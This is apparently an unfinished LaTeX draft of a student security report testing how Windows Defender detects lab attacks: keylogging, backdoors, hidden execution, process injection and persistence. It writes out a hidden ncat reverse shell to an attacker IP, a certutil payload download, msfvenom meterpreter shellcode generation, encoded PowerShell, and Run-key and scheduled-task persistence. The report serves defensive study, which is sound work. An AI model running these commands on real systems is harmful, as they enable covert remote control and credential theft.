\documentclass[11pt]{article}
\usepackage{palatino} % Use Palatino font
\usepackage{geometry} % Set margins to 1 inch
\usepackage{setspace}
\usepackage{graphicx} % For including images
\usepackage{subcaption} % For creating subfigures
\usepackage{float} % For the [H] placement specifier
\usepackage{xcolor}
\usepackage{hyperref} % For clickable links, ToC, etc.
\usepackage{amsmath} % For math equations
\usepackage{amsfonts} % For math fonts
\usepackage{amssymb} % For math symbols
\usepackage{listings} % For code listings
\usepackage{enumitem} % For custom lists
\usepackage{booktabs} % For professional tables
\usepackage{longtable} % For tables that span multiple pages
\usepackage{array} % For more advanced table column formatting
\usepackage{fancyhdr} % For custom headers and footers
\usepackage{lastpage} % To get the total number of pages
\usepackage{csquotes} % Context sensitive quotation facilities
\usepackage{tabularx} % For tables with fixed width
\usepackage{colortbl} % For colored table cells
\usepackage{soul} % For highlighting text (use with caution)
\usepackage{tikz} % For drawing graphics directly in LaTeX
\usetikzlibrary{arrows.meta, positioning, shapes.geometric}
\usepackage{pgfplots} % For creating plots
\pgfplotsset{compat=1.18}
\usepackage{ragged2e} % For ragged text alignment

\onehalfspacing
\hypersetup{
	colorlinks=true,
	linkcolor=blue,
	filecolor=magenta,      
	urlcolor=cyan,
	pdftitle={Advanced Security Evasion in Windows with Hidden Commands},
	pdfpagemode=FullScreen,
}

\pagestyle{fancy}
\fancyhf{} % clear all header and footer fields
\fancyhead[L]{Advanced Security Evasion in Windows}
\fancyhead[R]{\today}
\fancyfoot[C]{\thepage\ of \pageref{LastPage}}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

\begin{document}
	\justifying
	
	% --- TITLE PAGE ---
	\begin{titlepage}
		\centering
		\vspace*{\stretch{1.0}}
		{\Huge\bfseries Advanced Security Evasion in Windows with Hidden Commands\par}
		\vspace{1.5cm}
		{\Large Author(s)/Team Members: [List Names]\par} % TODO: Add Names
		\vspace{0.5cm}
		{\large Course: Operating Systems\par} % Assuming based on context
		\vspace{0.5cm}
		{\large Instructor: Bruno da Silva\par}
		\vspace{0.5cm}
		{\large Institution: VRIJE UNIVERSITEIT BRUSSEL (MUB ETRO ELECTRONICS & INFORMATICS)\par}
		\vspace{1.0cm}
		{\large Date of Submission: \today\par}
		\vspace*{\stretch{2.0}}
	\end{titlepage}
	
	\tableofcontents
	\newpage
	\listoffigures
	\newpage
	\listoftables % Added List of Tables
	\newpage
	
	% --- ABSTRACT ---
	\begin{abstract}
		\noindent\textbf{Description:} This project investigates the efficacy of Windows security solutions, primarily focusing on Windows Defender, in detecting and responding to advanced stealthy attack techniques. The study evaluates a range of common attacker methodologies including the deployment of keyloggers, creation of backdoors for remote access, non-visual command execution leveraging built-in system tools, process injection for memory manipulation, and various persistence mechanisms designed to maintain unauthorized access[cite: 246]. The evaluation involved executing these attack scenarios in a controlled environment while meticulously logging system behavior, network activity, and Windows event logs to analyze the detection capabilities and response of the security software[cite: 247].\\
		
		\noindent\textbf{Results:} The experimental findings indicate varying levels of detection success by Windows Defender. While some less sophisticated or signature-based attacks, such as basic keylogger file drops or known backdoor patterns, were often identified, more advanced evasion tactics presented significant challenges. Techniques employing fileless malware, Living Off The Land Binaries and Scripts (LOLBAS) for command execution, obfuscated PowerShell commands, and certain process injection methods frequently bypassed default detection mechanisms. Analysis of logs revealed that enhanced logging, such as PowerShell Script Block Logging and Sysmon, provided crucial telemetry for manual threat hunting where automated alerts were absent. Windows Defender's resource utilization showed moderate increases during active attack simulations. \\ % TODO: Finalize based on actual results
		
		\noindent\textbf{Discussion and Conclusion:} The results underscore that while Windows Defender offers a crucial baseline of protection, sophisticated attackers can employ various evasion techniques to circumvent its defenses. The study highlights the limitations of relying solely on default security configurations and emphasizes the importance of a defense-in-depth strategy. Effective defense against advanced threats necessitates comprehensive logging, proactive threat hunting, and the integration of advanced endpoint detection and response (EDR) capabilities. The findings conclude that continuous adaptation and understanding of evolving attacker tradecraft are paramount for maintaining robust security postures in Windows environments.
	\end{abstract}
	\newpage
	
	% --- INTRODUCTION ---
	\section{Introduction}
	\subsection{Problem Statement and Motivation}
	The landscape of cyber threats is constantly evolving, with attackers developing increasingly sophisticated techniques to evade detection by security systems. Detecting these stealthy attacks is a significant challenge for individuals and organizations alike. Understanding the methods attackers use to bypass security measures is crucial for defenders to improve their strategies, tools, and overall security posture. This project aims to shed light on these evasion techniques within the Windows operating system, a prevalent target for cyber-attacks.
	
	\subsection{Project Aims and Objectives}
	The primary aims of this project, referencing the project proposal[cite: 246, 247], are:
	\begin{itemize}
		\item To evaluate the detection capabilities of Windows Defender (and potentially other security solutions) against a set of specific attacker techniques.
		\item The attacker techniques investigated include:
		\begin{itemize}
			\item Keylogger deployment.
			\item Backdoor creation and remote access.
			\item Non-visual command execution and process hiding.
			\item Process injection and memory manipulation.
			\item Persistence techniques.
		\end{itemize}
		\item To analyze system behavior, network activity, and event logs during these simulated attacks to understand how security solutions respond and what artifacts are generated.
		\item To assess the effectiveness of various evasion methods employed by attackers.
	\end{itemize}
	
	\subsection{Scope of the Project}
	This project focuses on:
	\begin{itemize}
		\item \textbf{Operating System:} Specific version(s) of Windows (e.g., Windows 10/11 Pro, specify build).
		\item \textbf{Primary Security Solution:} Windows Defender (specify version, update status, and configuration).
		\item \textbf{Attacker Tools:} A combination of publicly available tools (e.g., Metasploit, Nmap, PowerShell), custom scripts (e.g., `keylog.py`[cite: 3], `cmd\_commands.txt` [cite: 4]), and techniques from frameworks like LOLBAS[cite: 251].
		\item \textbf{Third-Party Solutions (Optional):} If other AV/EDR solutions were tested, they should be specified.
		\item \textbf{Exclusions:} This study may not cover all possible evasion techniques or every security product available. The focus is on the selected methods and Windows Defender's response.
	\end{itemize}
	
	\subsection{Report Structure}
	This report is organized as follows:
	\begin{itemize}
		\item \textbf{Section 2 (Background):} Provides theoretical context on security evasion, Windows security architecture, the attacker techniques studied, and relevant frameworks.
		\item \textbf{Section 3 (Methodology / Project Implementation):} Details the experimental setup, configuration of security solutions, step-by-step implementation of attacker techniques, and the data collection strategy.
		\item \textbf{Section 4 (Experimental Results):} Presents the findings from the experiments, including detection rates, log analysis, and performance metrics.
		\item \textbf{Section 5 (Discussion and Conclusion):} Interprets the results, discusses their implications, acknowledges limitations, and summarizes the project's conclusions and potential future work.
		\item \textbf{Section 6 (References):} Lists all cited sources.
		\item \textbf{Section 7 (Appendices):} (Optional) Contains supplementary materials like full scripts or detailed logs.
	\end{itemize}
	\newpage
	
	% --- BACKGROUND ---
	\section{Background}
	\subsection{Fundamentals of Security Evasion}
	Security evasion refers to the set of techniques and strategies employed by attackers to avoid detection by security mechanisms such as antivirus (AV) software, Endpoint Detection and Response (EDR) solutions, Intrusion Detection/Prevention Systems (IDS/IPS), and firewalls[cite: 128]. The primary goal of evasion is to allow malicious activities to proceed unnoticed, enabling attackers to achieve their objectives, which could range from data theft and espionage to system disruption or financial gain[cite: 128]. Attacker motivations are diverse but often include maintaining stealth to ensure long-term access (persistence), escalating privileges to gain deeper system control, and exfiltrating sensitive information without triggering alarms. The field of security evasion is characterized by a continuous "cat-and-mouse" game, where defenders develop new detection methods, and attackers, in turn, devise new ways to bypass them.
	
	\subsection{Overview of Windows Security Architecture}
	The Windows operating system incorporates a multi-layered security architecture designed to protect against a wide array of threats. Key components include:
	\begin{itemize}
		\item \textbf{Windows Defender Antivirus:} The built-in anti-malware solution in Windows. Its features include[cite: 251]:
		\begin{itemize}
			\item \textbf{Real-time scanning:} Continuously monitors files and processes for malicious activity.
			\item \textbf{Behavior monitoring:} Analyzes program behavior to detect suspicious actions even from unknown malware.
			\item \textbf{Antimalware Scan Interface (AMSI):} An interface that allows applications and services to integrate with any antimalware product present on a machine, providing better protection against script-based and fileless attacks.
			\item \textbf{Cloud-delivered protection:} Leverages Microsoft's cloud infrastructure for rapid updates on emerging threats and enhanced detection capabilities.
			\item \textbf{Network Inspection System (NIS):} Helps protect against network-based exploits.
			\item \textbf{Controlled Folder Access:} Helps protect valuable data from malicious apps and threats, such as ransomware.
		\end{itemize}
		\item \textbf{Windows Event Logging:} A critical component for security monitoring and forensics. Windows records a wide variety of events related to system, security, application, PowerShell, and other operations. Specific event IDs can indicate suspicious activities, login attempts, process creation, and security policy changes[cite: 249].
		\item \textbf{User Account Control (UAC):} Helps prevent unauthorized changes to the system by prompting for permission or an administrator password before performing actions that could potentially affect the computer's operation or security.
		\item \textbf{Windows Firewall:} Controls network traffic flowing into and out of the system, based on configured rules.
		\item \textbf{BitLocker Drive Encryption:} Provides full-disk encryption to protect data at rest.
		\item \textbf{AppLocker/Windows Defender Application Control (WDAC):} Allows administrators to control which applications and files users can run.
	\end{itemize}
	In addition to these built-in features, many organizations deploy third-party AV/EDR solutions for enhanced threat detection, investigation, and response capabilities. If such solutions were used in this project, they will be detailed in the methodology section.
	
	\subsection{Theoretical Overview of Attacker Techniques Investigated}
	\subsubsection{Keyloggers}
	A keylogger is a type of surveillance software or hardware that records every keystroke made on a computer[cite: 251].
	\begin{itemize}
		\item \textbf{Definition:} Its purpose is typically to covertly collect sensitive information such as login credentials, credit card numbers, personal messages, and other confidential data.
		\item \textbf{Types:} Keyloggers can be software-based (running as a process on the victim's machine) or hardware-based (a physical device connected between the keyboard and the computer). This project focuses on software-based keyloggers.
		\item \textbf{Indicators of Compromise (IOCs):} Unusual network traffic (if the keylogger sends logs remotely), unexpected new processes or files (though often hidden), performance degradation (less common with well-written keyloggers), or anti-keylogger software alerts. The script `keylog.py` [cite: 3] is an example of a software-based keylogger.
	\end{itemize}
	
	\subsubsection{Backdoors and Remote Access}
	A backdoor is a covert method of bypassing normal authentication or encryption in a computer system, an application, or an embedded device[cite: 118, 120, 251].
	\begin{itemize}
		\item \textbf{Definition:} It allows unauthorized remote access to a system, enabling attackers to control the compromised machine, exfiltrate data, or use it as a pivot point for further attacks.
		\item \textbf{Methods:} Backdoors can be established through various means, including exploiting vulnerabilities, installing malicious software, or using legitimate remote administration tools for malicious purposes. Common methods include:
		\begin{itemize}
			\item \textbf{Reverse Shells:} The compromised machine initiates an outbound connection to an attacker-controlled server. This is often used to bypass firewalls that restrict inbound connections. The command `ncat 172.20.10.15 12345 -e cmd.exe` in `cmd\_commands.txt` [cite: 253] attempts to establish a reverse shell.
			\item \textbf{Bind Shells:} The compromised machine opens a listening port, waiting for the attacker to connect.
		\end{itemize}
		\item \textbf{Command and Control (C2):} Attackers use C2 infrastructure to send commands to the backdoor and receive data.
		\item \textbf{IOCs:} Unexpected network connections (especially to unusual IP addresses or ports), new listening ports, unexplained system behavior, or new user accounts.
	\end{itemize}
	
	\subsubsection{Non-Visual Command Execution and Process Hiding}
	Attackers often need to execute commands on a compromised system without alerting the user or security software.
	\begin{itemize}
		\item \textbf{PowerShell:} A powerful command-line shell and scripting language built on .NET. Attackers frequently use PowerShell for its extensive capabilities, including fileless attacks, in-memory execution, and access to Windows APIs[cite: 251]. Evasion techniques include:
		\begin{itemize}
			\item \textbf{Execution Policy Bypass:} Circumventing PowerShell execution policies that restrict script execution.
			\item \textbf{Obfuscation:} Making scripts difficult to read and analyze.
			\item \textbf{Fileless Execution:} Running commands or entire scripts directly in memory without writing them to disk.
		\end{itemize}
		\item \textbf{Living Off The Land Binaries and Scripts (LOLBAS):} Attackers use legitimate, pre-installed system tools and scripts (binaries, libraries, scripts) to perform malicious actions[cite: 251]. This helps them blend in with normal system activity and avoid detection based on known malicious files. Examples include `cmd.exe`, `powershell.exe`, `rundll32.exe`, `certutil.exe`, etc. The use of `start /min cmd /c` in `cmd\_commands.txt` [cite: 252, 253] is an example of attempting to run commands in a hidden window.
		\item \textbf{Process Hiding Techniques:} Methods to conceal malicious processes from casual inspection by users or basic monitoring tools. This can involve techniques like running processes with hidden windows (e.g., `start /min`), process Doppelgänging, or more advanced rootkit-like methods. The command `attrib +h` in `cmd\_commands.txt` [cite: 252, 253] is used for file hiding, which is a related concept.
	\end{itemize}
	
	\subsubsection{Process Injection and Memory Manipulation}
	Process injection is a technique where an attacker runs arbitrary code within the address space of a separate live process[cite: 251].
	\begin{itemize}
		\item \textbf{Definition:} By injecting malicious code into a legitimate process, attackers can evade detection (as the malicious code runs under the guise of a trusted process), access the process's memory and resources, and potentially elevate privileges.
		\item \textbf{Types:} Common process injection techniques include:
		\begin{itemize}
			\item \textbf{DLL Injection:} Forcing a legitimate process to load a malicious Dynamic Link Library (DLL).
			\item \textbf{Shellcode Injection:} Writing custom machine code (shellcode) directly into the memory space of a target process and then causing it to execute.
			\item \textbf{Process Hollowing (RunPE):} Creating a new process in a suspended state, replacing its legitimate code with malicious code, and then resuming its execution.
			\item \textbf{Thread Execution Hijacking (Suspending, Injecting, and Resuming - SIR):} Modifying the execution path of an existing thread in a target process to execute injected code.
		\end{itemize}
		\item \textbf{Purpose:} Evasion, privilege escalation, maintaining persistence, or executing malicious payloads stealthily.
	\end{itemize}
	
	\subsubsection{Persistence Techniques}
	Persistence refers to techniques that attackers use to maintain access to a compromised system across reboots, credential changes, or other system interruptions[cite: 251].
	\begin{itemize}
		\item \textbf{Importance:} Achieving persistence is a critical goal for attackers, allowing them to continue their malicious activities over an extended period.
		\item \textbf{Common Methods:}
		\begin{itemize}
			\item \textbf{Startup Locations:} Placing malicious executables or scripts in Windows Startup folders (e.g., `"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"` as seen in `cmd\_commands.txt` [cite: 252, 253]).
			\item \textbf{Registry Run Keys:} Adding entries to various `Run` or `RunOnce` registry keys (e.g., `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`).
			\item \textbf{Scheduled Tasks:} Creating scheduled tasks that execute malicious code at specified times or triggers.
			\item \textbf{Windows Services:} Creating or modifying Windows services to run malicious programs.
			\item \textbf{DLL Hijacking:} Exploiting how applications search for and load DLLs.
			\item \textbf{WMI Event Subscriptions:} Using Windows Management Instrumentation (WMI) to trigger malicious actions based on system events.
		\end{itemize}
	\end{itemize}
	
	\subsection{Relevant Frameworks and Tools}
	\begin{itemize}
		\item \textbf{MITRE ATT\&CK Framework:} A globally accessible knowledge base of adversary tactics and techniques based on real-world observations[cite: 251]. It provides a common taxonomy for describing attacker behaviors, which is invaluable for threat intelligence, detection engineering, and security assessments. This project will reference ATT\&CK tactics such as Defense Evasion (e.g., Hidden Files and Directories, Obfuscated Files or Information, Process Injection), Persistence (e.g., Registry Run Keys / Startup Folder, Scheduled Task/Job), and Command and Control (e.g., Remote Access Software).
		\item \textbf{LOLBAS Project (Living Off The Land Binaries and Scripts):} This project documents legitimate binaries, scripts, and libraries native to Windows that can be abused by adversaries for malicious purposes[cite: 251]. Utilizing LOLBAS helps attackers blend in with normal system activity and evade detection based on known malicious files.
		\item \textbf{Sysinternals Suite:} A suite of advanced system utilities and technical information for Windows developed by Mark Russinovich[cite: 251]. Tools like Process Monitor (ProcMon), Autoruns, Process Explorer, and Sysmon are indispensable for system analysis, malware detection, and understanding system behavior.
		\begin{itemize}
			\item \textbf{Process Monitor (ProcMon):} Monitors file system, Registry, and process/thread activity in real-time.
			\item \textbf{Autoruns:} Shows what programs are configured to run during system bootup or login, and when various built-in Windows applications start.
			\item \textbf{Sysmon (System Monitor):} A Windows system service and device driver that, once installed on a system, remains resident across system reboots to monitor and log system activity to the Windows event log. It provides detailed information about process creations, network connections, and changes to file creation times.
		\end{itemize}
	\end{itemize}
	\subsection{Brief Literature Review (if applicable)}
	% TODO: Add a brief literature review if specific papers or significant articles were foundational to the project's design or interpretation.
	% Example: Several studies have investigated the efficacy of Windows Defender against various malware families (Author, Year). Research by (Author, Year) specifically highlighted challenges in detecting fileless attacks. This project builds upon these by focusing on a curated set of evasion techniques and their impact on current Defender versions.
	The "Operating Systems and Security" course material, particularly the sections on Attacks, Malware, and Defenses, provided foundational knowledge for this project[cite: 1, 2]. Tanenbaum's "Modern Operating Systems" chapter on Security also offers relevant background on general security principles and attack vectors[cite: 2].
	\newpage
	
	% --- METHODOLOGY / PROJECT IMPLEMENTATION ---
	\section{Methodology / Project Implementation}
	This section details the setup of the test environment, configuration of security solutions, step-by-step implementation of the attacker techniques, and the strategy for monitoring and data collection. The goal is to provide a clear and replicable methodology.
	
	\subsection{Test Environment Setup}
	\subsubsection{Victim Machine(s)}
	\begin{itemize}
		\item \textbf{Operating System:} Windows [Specify Version, e.g., 10 Pro Build XXXX or 11 Pro Build YYYY].
		\item \textbf{Virtualization:} [Specify Platform, e.g., VMware Workstation Pro 16, VirtualBox 7.x]. The machine was run as a virtual machine to allow for snapshots and easy rollback.
		\item \textbf{Hardware (Virtual):} [Specify, e.g., 2 vCPUs, 4 GB RAM, 60 GB HDD].
		\item \textbf{Baseline Software:} A clean installation of Windows with standard user applications (e.g., a web browser, office suite) to simulate a typical user environment. No third-party security software was installed other than what is being explicitly tested.
	\end{itemize}
	
	\subsubsection{Attacker Machine(s)}
	\begin{itemize}
		\item \textbf{Operating System:} [Specify OS, e.g., Kali Linux 202X.X, Parrot OS, or another Windows VM].
		\item \textbf{Tools:}
		\begin{itemize}
			\item Metasploit Framework [Specify version, if relevant].
			\item Nmap (for network discovery/verification, installed via WinGet as per `cmd\_commands.txt` [cite: 252]).
			\item Python 3.x environment (for running `keylog.py` [cite: 3] and `activity_logger.py`).
			\item Netcat (`ncat` used in `cmd\_commands.txt` [cite: 253] for establishing reverse shells).
			\item Standard command-line utilities.
			\item Any custom scripts or compilers used.
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Network Configuration}
	\begin{itemize}
		\item \textbf{Setup:} [Specify, e.g., Isolated virtual network (Host-Only or NAT network in VMware/VirtualBox) to prevent accidental impact on other systems].
		\item \textbf{Connectivity:} The victim machine had [Specify, e.g., internet connectivity for Windows Defender updates and potential C2 communication, or no internet connectivity if testing offline capabilities]. The attacker machine was on the same virtual network to facilitate direct attacks.
		\item \textbf{IP Addressing:} Document the IP addresses used for the victim and attacker machines (e.g., Victim: 192.168.X.Y, Attacker: 192.168.X.Z, or as per the Ncat command `172.20.10.15` in `cmd\_commands.txt` [cite: 253]).
	\end{itemize}
	
	\subsection{Security Solution Configuration}
	\subsubsection{Windows Defender}
	\begin{itemize}
		\item \textbf{Version:} Antimalware Client Version, Engine Version, Antivirus definition version (obtained from Defender settings).
		\item \textbf{Real-time Protection:} Enabled.
		\item \textbf{Cloud-delivered Protection:} Enabled/Disabled (Specify and justify).
		\item \textbf{Automatic Sample Submission:} Enabled/Disabled (Specify and justify).
		\item \textbf{Tamper Protection:} Enabled/Disabled (Specify and justify).
		\item \textbf{Exclusions:} No exclusions were configured unless explicitly stated for a specific test scenario.
		\item \textbf{Updates:} Windows Defender definitions were updated to the latest available at the start of each major test phase.
		\item \textbf{PowerShell Logging:} Script Block Logging and Module Logging were [Enabled/Disabled]. This is crucial for detecting PowerShell-based attacks.
		\item \textbf{Sysmon:} If used, specify version and configuration file/rules.
	\end{itemize}
	
	\subsubsection{Other AV/EDR (if used)}
	\begin{itemize}
		\item \textbf{Name:} [Specify, e.g., SentinelOne, CrowdStrike Falcon].
		\item \textbf{Version:} [Specify].
		\item \textbf{Configuration:} Detail relevant settings (e.g., protection levels, specific features enabled/disabled).
	\end{itemize}
	
	\subsection{Implementation of Attacker Techniques}
	For each of the five attacker techniques identified in the project proposal[cite: 248], the following details are provided. (This corresponds to Person 1's role [cite: 251]).
	
	\subsubsection{Technique 1: Keylogger Deployment}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To deploy a Python-based keylogger, make it persistent, and assess if Windows Defender detects the script, its execution, or its output file.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item `keylog.py`: A Python script using the `pynput` library to capture keystrokes and save them to `key.txt`[cite: 3].
			\item `cmd\_commands.txt`: A batch script used to automate parts of the deployment, including copying `keylog.py` to the Startup folder for persistence and hiding the script file[cite: 252, 253].
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure:}
		\begin{enumerate}
			\item The `keylog.py` script and `cmd\_commands.txt` were transferred to the victim machine (e.g., via a shared folder, USB drive, or downloaded).
			\item `cmd\_commands.txt` was executed on the victim machine.
			\item The batch script performed the following actions:
			\begin{itemize}
				\item Copied `keylog.py` to the user's Startup folder (`%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`) to ensure it runs on login[cite: 252].
				\item Used `attrib +h` to hide `keylog.py` in the Startup folder and the batch script itself[cite: 252, 253].
				\item Initiated the execution of `keylog.py` using `python "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py"`[cite: 252, 253].
			\end{itemize}
			\item Keystrokes were entered on the victim machine (e.g., typing in Notepad, Browse).
			\item The content of `key.txt` was checked to verify the keylogger's operation.
		\end{enumerate}
		\item \textbf{Specific Evasion Methods Employed:}
		\begin{itemize}
			\item \textbf{Persistence:} Using the Startup folder.
			\item \textbf{File Hiding:} Using `attrib +h` to hide `keylog.py` and `cmd\_commands.txt`.
			\item \textbf{Non-interactive execution} for the keylogger script via the batch file.
			\item \textbf{Script-based threat:} Relying on a Python script which might be treated differently than a compiled executable by some AVs.
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Technique 2: Backdoor Creation and Remote Access}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To establish a reverse shell from the victim machine to the attacker machine using Netcat and assess if Windows Defender detects the connection attempt or the tool used.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item `ncat.exe` (part of Nmap, installed via WinGet as per `cmd\_commands.txt` [cite: 252]).
			\item `cmd\_commands.txt`: Used to initiate the Ncat reverse shell connection[cite: 253].
			\item Attacker machine: Netcat listener (`nc -lvnp 12345`).
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure:}
		\begin{enumerate}
			\item On the attacker machine, a Netcat listener was started: `nc -lvnp 12345`.
			\item On the victim machine, `cmd\_commands.txt` was executed.
			\item The batch script attempted to install Nmap (if not present) and then initiated the reverse shell: `start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"`[cite: 252, 253]. (Note: IP `172.20.10.15` needs to be the attacker's IP).
			\item If successful, a command prompt session from the victim machine appeared on the attacker's Netcat listener.
			\item Commands were executed remotely (e.g., `dir`, `whoami`).
		\end{enumerate}
		\item \textbf{Specific Evasion Methods Employed:}
		\begin{itemize}
			\item \textbf{Reverse Shell:} To bypass potential inbound firewall restrictions on the victim.
			\item \textbf{Using a legitimate tool (Ncat):} Nmap/Ncat can be used for legitimate network administration, potentially reducing suspicion.
			\item \textbf{Hidden Window:} `start /min cmd /c` attempts to run the command in a minimized/hidden window[cite: 253].
			\item \textbf{Automated Installation of Nmap:} The `cmd\_commands.txt` script attempts to install Nmap silently using WinGet[cite: 252], which might evade scrutiny if WinGet itself is trusted.
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Technique 3: Non-Visual Command Execution and Process Hiding}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To execute commands (e.g., file manipulation, reconnaissance) using PowerShell and `cmd.exe` in a way that avoids visible windows and to test detection of these hidden operations.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item `cmd.exe` (via `start /min cmd /c` in `cmd\_commands.txt` [cite: 252, 253]).
			\item `powershell.exe` (e.g., `powershell -windowstyle hidden -command "Get-Process"`).
			\item Various LOLBAS (e.g., `certutil.exe` for downloading files, `reg.exe` for registry manipulation).
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure (Examples):}
		\begin{enumerate}
			\item \textbf{Hidden CMD execution:} The `cmd\_commands.txt` already uses `start /min cmd /c` for various tasks (keylogger execution, Ncat)[cite: 252, 253]. Additional commands for file creation/deletion were tested using this method.
			\begin{verbatim}
				start /min cmd /c "echo test > C:\Users\Public\hidden_file.txt"
			\end{verbatim}
			\item \textbf{Hidden PowerShell execution:}
			\begin{verbatim}
				powershell.exe -WindowStyle Hidden -Command "New-Item -Path C:\Users\Public\ps_hidden_file.txt -ItemType File"
				powershell.exe -WindowStyle Hidden -EncodedCommand <Base64_Encoded_Command>
			\end{verbatim}
			\item \textbf{LOLBAS for file download (Certutil):}
			\begin{verbatim}
				certutil.exe -urlcache -split -f http://<attacker_ip>/malicious.exe C:\Users\Public\downloaded.exe
			\end{verbatim}
			\item Process activity was monitored using Process Monitor and Task Manager (looking for brief appearances or child processes of legitimate services).
		\end{enumerate}
		\item \textbf{Specific Evasion Methods Employed:}
		\begin{itemize}
			\item \textbf{Hidden Windows:} Using `start /min` with `cmd.exe` and `-WindowStyle Hidden` with PowerShell.
			\item \textbf{LOLBAS:} Using built-in Windows tools like `certutil.exe` to avoid introducing new malicious binaries.
			\item \textbf{PowerShell EncodedCommand:} Obfuscating PowerShell commands by Base64 encoding.
			\item \textbf{File Hiding:} Using `attrib +h` on any created artifacts[cite: 252, 253].
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Technique 4: Process Injection and Memory Manipulation}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To inject shellcode into a running process (e.g., `explorer.exe` or a newly created benign process like `notepad.exe`) and assess detection by Windows Defender.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item \textbf{Metasploit Framework (`msfvenom`):} To generate shellcode (e.g., a reverse TCP shell or a `calc.exe` launcher).
			\begin{verbatim}
				msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f C
				msfvenom -p windows/x64/exec CMD=calc.exe -f python
			\end{verbatim}
			\item \textbf{Custom Injection Script (Python with `ctypes` or PowerShell):} A script to perform the injection (e.g., using `CreateRemoteThread` or other APIs).
			\item \textbf{Target Process:} A common legitimate process like `notepad.exe` or `explorer.exe`.
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure (Conceptual for DLL/Shellcode Injection):}
		\begin{enumerate}
			\item Generate shellcode using `msfvenom` on the attacker machine.
			\item Transfer the shellcode (e.g., embedded in a Python script or PowerShell script) to the victim machine.
			\item Identify a target process ID (PID) on the victim machine (e.g., launch `notepad.exe` and get its PID).
			\item Execute the injection script on the victim machine, providing the PID and shellcode.
			\item The script would typically:
			\begin{itemize}
				\item Get a handle to the target process (`OpenProcess`).
				\item Allocate memory within the target process (`VirtualAllocEx`).
				\item Write the shellcode into the allocated memory (`WriteProcessMemory`).
				\item Create a new thread in the target process to execute the shellcode (`CreateRemoteThread` or similar).
			\end{itemize}
			\item Observe if the shellcode executes (e.g., a reverse shell connects back, `calc.exe` opens).
		\end{enumerate}
		\item \textbf{Specific Evasion Methods Employed:}
		\begin{itemize}
			\item \textbf{Running in legitimate process context:} Malicious code executes under a trusted process.
			\item \textbf{Fileless execution (of shellcode):} The payload exists only in memory.
			\item \textbf{Obfuscation of injector script:} If using PowerShell, encoding could be used.
			\item \textbf{Choice of target process:} Injecting into highly common processes.
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Technique 5: Persistence Techniques}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To establish persistence using methods like Startup folder, Registry Run keys, and Scheduled Tasks, and evaluate Windows Defender's ability to detect or prevent these modifications.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item `cmd.exe` and `reg.exe` for Registry manipulation.
			\item `schtasks.exe` for Scheduled Task creation.
			\item `keylog.py` or a simple benign script (`payload.bat`/`payload.ps1`) as the persistent payload.
			\item `cmd\_commands.txt` already implements Startup folder persistence for `keylog.py`[cite: 252, 253].
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure (Examples):}
		\begin{enumerate}
			\item \textbf{Startup Folder (already covered by keylogger):}
			\begin{itemize}
				\item `cmd\_commands.txt` copies `keylog.py` to `"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"`[cite: 252].
				\item Verify execution after reboot/re-login.
			\end{itemize}
			\item \textbf{Registry Run Key:}
			\begin{verbatim}
				reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MyPersistentScript" /t REG_SZ /d "C:\path\to\payload.bat" /f
			\end{verbatim}
			(Replace `payload.bat` with the actual script, e.g., one that creates a file or launches calc).
			\item \textbf{Scheduled Task:}
			\begin{verbatim}
				schtasks /create /tn "MyDailyTask" /tr "C:\path\to\payload.exe" /sc DAILY /st 12:00
				schtasks /create /tn "MyLogonTask" /tr "C:\path\to\payload.ps1" /sc ONLOGON
			\end{verbatim}
			\item After setting up persistence, reboot the victim machine and check if the payload executes.
			\item Use tools like Autoruns to verify persistence entries.
		\end{enumerate}
		\item \textbf{Specific Evasion Methods Employed:}
		\begin{itemize}
			\item \textbf{Using legitimate system mechanisms:} Startup folder, Registry, and Task Scheduler are normal OS features.
			\item \textbf{Hiding payload files:} Using `attrib +h` on the payload scripts/executables.
			\item \textbf{Benign-looking names:} Using common or innocuous names for tasks or registry keys.
			\item \textbf{User-level persistence (HKCU):} Often less scrutinized than HKLM modifications, though may also be less privileged.
		\end{itemize}
	\end{itemize}
	
	
	\subsection{Monitoring and Data Collection Strategy}
	(Corresponds to Person 2's role [cite: 251])
	\subsubsection{Security Solution Logs}
	\begin{itemize}
		\item \textbf{Windows Defender:}
		\begin{itemize}
			\item Alerts and detection history were accessed via the Windows Security app.
			\item Event logs for Windows Defender: `Microsoft-Windows-Windows Defender/Operational` and `Microsoft-Windows-Windows Defender/WHC` (Event Viewer). Event IDs like 1006, 1007 (detection), 1116, 1117 (action taken) were monitored.
		\end{itemize}
		\item \textbf{Other AV/EDR (if used):} Logs were collected according to the specific solution's interface (e.g., management console, local log files).
	\end{itemize}
	
	\subsubsection{System-Level Logs}
	\begin{itemize}
		\item \textbf{Windows Event Logs (via Event Viewer):}
		\begin{itemize}
			\item \textbf{Security Log (`Security.evtx`):} Monitored for logon events (4624, 4625), process creation (4688 - if enabled), object access, privilege use.
			\item \textbf{System Log (`System.evtx`):} Monitored for service creation/modification, errors.
